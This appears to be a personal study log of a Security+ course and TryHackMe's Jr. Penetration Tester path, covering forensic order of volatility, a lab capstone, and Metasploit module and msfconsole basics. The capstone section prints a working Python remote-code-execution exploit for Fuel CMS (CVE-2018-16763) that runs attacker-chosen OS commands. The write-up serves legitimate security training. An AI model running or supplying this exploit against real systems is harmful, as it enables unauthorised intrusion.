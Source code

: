 ```yaml
---
title: 'ITPro.TV: CompTIA Security+ (SY0-601) &amp; TryHackMe: Jr. Penetration Tester'
date: 2022-04-13 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-04-13-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.html
author: 100007
---
```


# ITPro.TV: CompTIA Security+ (SY0-601)

## Digital Forensics Concepts

Order of volatility:

- CPU cache & registers (good luck!)
- Routing tables, process tables, ARP cache, kernel stats
- (Non-Kernel) RAM
- Swap, /tmp, etc.
- Storage, VM snapshots
- Archival data, backups, logs, print-outs

Preservation and documentation notes:

- Timestamp everything
- Note timezone differences
- Written reports and logs (also use these to establish the chain of custody)
- Witness testimony
- Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

- FTK Imager
- WinHex
- Autopsy
- EnCase Forensic
- `dd`

# TryHackMe: Jr. Penetration Tester

## Vulnerability Capstone

I couldn’t get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error

delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'

def exploit():
	while True:
		try:
			payload = input("
[+] OS Command: ")
			response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
			htmlText = str(BeautifulSoup(response.text,'html.parser'))
			array1 = htmlText.split(delimeter1)
			array2 = array1[1].split(delimeter2)
			print('
' + array2[-1].replace('

',''))

		except error:
			exit('
[-] Could Not Connect To Server')

if __name__ == ' __main__':

	mainArguments = argparse.ArgumentParser()
	mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
	args = mainArguments.parse_args()

	try:
		exploit()
	except KeyboardInterrupt:
		exit('
[!] Quitting')
```

- [THM-Vulnerability\_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
- [THM-Vulnerability\_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
- [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
- [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

## Main Components of Metasploit

Module categories:

- Auxiliary (odds-n-ends)
- Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
- Evasion (attempt to directly evade anti-malware solutions)
- Exploits
- NOPS (no-op code that can be used to pad exploits to a needed size)
- Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
- Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

- Singles (self-contained; also indicated by the use of an `_` separating “shell” from the rest of the payload name, as in `shell_reverse_tcp`)
- Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
- Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating “shell” from the rest of the payload name, as in `shell/reverse_tcp`)

## Msfconsole

You can use msfconsole as a shell, but there’s no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as “help”, though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

## Working with Modules

The common `RHOSTS` module option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

- `set -g` = `setg`
- `unset -g` = `unsetg`
- `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many _don’t_ have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.

